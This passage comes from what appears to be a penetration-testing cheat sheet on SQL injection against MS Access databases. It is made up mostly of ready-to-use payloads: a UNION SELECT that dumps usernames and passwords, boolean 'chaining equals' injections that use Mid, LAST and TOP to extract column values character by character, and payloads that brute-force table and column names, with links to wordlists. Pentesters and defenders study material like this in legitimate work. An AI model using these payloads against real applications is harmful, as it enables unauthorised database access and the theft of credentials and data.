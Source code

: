 ```sql
-1' UNION SELECT username,password from users%00
```

### Chaining equals + Substring

> [!WARNING]
> This will allow you to exfiltrate values of the current table without needing to know the name of the table.

**MS Access** allows **weird syntax** such as **`'1'=2='3'='asd'=false`**. As usually the SQL injection will be inside a **`WHERE`** clause we can abuse that.

Imagine you have a SQLi in a MS Access database and you know (or guessed) that one **column name is username**, and thats the field you want to **exfiltrate**. You could check the different responses of the web app when the chaining equals technique is used and potentially exfiltrate content with a **boolean injection** using the **`Mid`** function to get substrings.

```sql
'=(Mid(username,1,3)='adm')='
```

If you know the **name of the table** and **column** to dump you can use a combination between `Mid` , `LAST` and `TOP` to **leak all the info** via boolean SQLi:

```sql
'=(Mid((select last(useranme) from (select top 1 username from usernames)),1,3)='Alf')='
```

_Feel free to check this in the online playground._

### Brute-forcing Tables names

Using the chaining equals technique you can also **bruteforce table names** with something like:

```sql
'=(select+top+1+'lala'+from+<table_name>)='
```

You can also use a more traditional way:

```sql
-1' AND (SELECT TOP 1 <table_name>)%00
```

_Feel free to check this in the online playground._

- Sqlmap common table names: [https://github.com/sqlmapproject/sqlmap/blob/master/data/txt/common-tables.txt](https://github.com/sqlmapproject/sqlmap/blob/master/data/txt/common-tables.txt)
- There is another list in [http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html](http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html)

### Brute-Forcing Columns names

You can **brute-force current columns names** with the chaining equals trick with:

```sql
'=column_name='
```
